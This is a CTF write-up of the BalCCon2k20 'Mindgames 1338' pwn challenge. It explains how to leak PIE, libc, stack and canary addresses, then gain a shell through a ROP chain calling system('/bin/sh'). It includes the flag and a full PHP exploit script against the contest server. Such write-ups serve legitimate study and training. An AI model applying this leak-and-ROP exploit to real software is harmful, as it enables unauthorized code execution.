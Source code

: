 # Mindgames 1338 - BalCCon2k20 CTF (pwn, 470, 8 solved)
## Introduction

Mindgames 1338 is a pwn task. This is the third and last challenge of the
Mindgames serie (Mindgames 1336, 1337, 1338). This challenge has PIE and stack
canaries.

A Linux ELF file is provided. It is a guessing game. The highest score belongs
to a randomly generated Star Wars character, but can be replaced by the user's
name.

## Reverse engineering

The reverse engineering has been explained in Mindgames 1336's and Mindgames
1337's writeups.

## Exploitation

The exploitation here is slightly more complicated due to the presence of stack
canaries : not only is it required to leak the binary's base address, but it is
also required to leak the stack canary to overwrite it.

The canary is stored on the stack. A pointer to the stack can be found in the
libc (`environ`, which points to the program's environment variables).

The exploitation becomes:
1. leak PIE by overwriting last byte of `player`
2. leak libc by pointing `player` to `__libc_start_main`
3. leak stack by pointing `player` to libc's `environ` pointer
4. leak canary by pointing `player` to `environ - 0x110`
5. ROP to call `system("/bin/sh")`

**Flag**: `BCTF{0h_no!_N0w_y0u_killed_my_canary!_Your_mind_really_is_a_weapon!}`

## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php // vim: filetype=php
require_once "/mnt/ctf/tools/pwn/phplib/tubes/Socket.php";

// PIE
const LSM     = 0x00003fe0;
const PUTS    = 0x00001040;

// libc
const ENVIRON = 0x001be080;
const POPRDI  = 0x00023a5f;
const BINSH   = 0x00181519;
const SYSTEM  = 0x000449c0;

const HOST = "pwn.institute";
const PORT = 41338;

function menu(Tube $t)
{
	$t->expectLine("What do you want to do?");
	$t->expectLine(" 1) Show Highscore");
	$t->expectLine(" 2) Play the game");
	$t->expectLine(" 3) Exit");
	$t->expect("> ");
}

function hs(Tube $t)
{
	menu($t);
	$t->write("1\n");

	$t->expectLine("Current highscore:");
	$line = $t->readLine();

	list($score, , $player) = explode("\t", $line, 3);
	$score |= 0;
	$player = substr($player, 1);

	return [$score, $player];
}

function play(Tube $t, $name, $count = 0)
{
	global $ffi;

	menu($t);
	$t->write("2\n");

	$t->expectLine("Can you guess my numbers?");
	$t->expect("> ");

	for($i = 0; $i < $count; $i++) {
		$guess = $ffi->rand();
		$t->write("$guess\n");
	}

	for($i = 0; $i < $count; $i++) {
		$t->expectLine("You were lucky this time!");
		$t->expect(">");
	}

	$t->write("-1\n");
	$t->expectLine("Game over!");
	$t->expectLine("New Highscore! Amazing!");

	$t->expect("Give me your name: ");
	$t->write($name);
}

printf("[*] Creating process\n");
$time = microtime(true);

$t = new Socket(HOST, PORT);
$date = strftime("%Y-%m-%d %H:%M:%S"); // it's okay because we use NTP ;-)
$t->expectLine("Hello there! It's $date and the weather looks pretty nice!");

//$t->expect("Hello there! It's ");
//$date = $t->read(strlen("2020-09-25 21:26:35"));
//$t->expectLine(" and the weather looks pretty nice!");
$t->expectLine("");
$t->expectLine("");
$t->expectLine("We should play a game of the mind!");
$t->expect("> ");

$ffi = FFI::load("rand.h");

printf("[+] Done in %f seconds\n", microtime(true) - $time);
printf("\n");

$time = strtotime($date);
$ffi->srand($time);
$ffi->rand(); // player
$score = $ffi->rand(); // score

printf("[*] Leak addresses\n");

/* Leak */
$payload  = str_pad("XeR", 0x20, "\x00");
$payload .= pack("Q", 0); // faster
$payload .= "\xe8";

play($t, $payload, 32);
$hs   = hs($t);
$addr = str_pad(substr($hs[1], 0, 8), 8, "\x00");
$base = unpack("Q", $addr)[1] - 0x40e8;

printf("[+] base: %X\n", $base);

$payload  = str_pad("XeR", 0x20, "\x00");
$payload .= pack("Q", 0); // faster
$payload .= pack("Q", $base + LSM);

play($t, $payload);
$hs   = hs($t);
$addr = str_pad(substr($hs[1], 0, 8), 8, "\x00");
$addr = unpack("Q", $addr)[1];
$libc  = $addr & ~0xFFF;
$libc -= 0x23000;

printf("[+] libc: %X\n", $libc);


$payload  = str_pad("XeR", 0x20, "\x00");
$payload .= pack("Q", 0); // faster
$payload .= pack("Q", $libc + ENVIRON);

play($t, $payload);
$hs    = hs($t);
$addr  = str_pad(substr($hs[1], 0, 8), 8, "\x00");
$stack = unpack("Q", $addr)[1];

printf("[+] stack: %X\n", $stack);


$payload  = str_pad("XeR", 0x20, "\x00");
$payload .= pack("Q", 0); // faster
$payload .= pack("Q", $stack - 0x110 + 1);

play($t, $payload);
$hs     = hs($t);
$leak   = "\x00" . substr($hs[1], 0, 7);
$canary = unpack("Q", $leak)[1];
assert(8 === strlen($leak));

printf("[+] canary: %X\n", $canary);
printf("\n");


/* actual pwn */
$payload  = str_repeat("x", 0x108);
$payload .= pack("Q", $canary); // canary

$payload .= pack("Q", 0xdeadbeef); // rbp
$payload .= pack("Q*",
	$libc + POPRDI, $libc + BINSH,
	$base + PUTS,

	$libc + POPRDI, $libc + BINSH,
	$libc + SYSTEM,

	-1
); // rip

play($t, $payload);


printf("[!] shell\n");
$t->pipe();
```
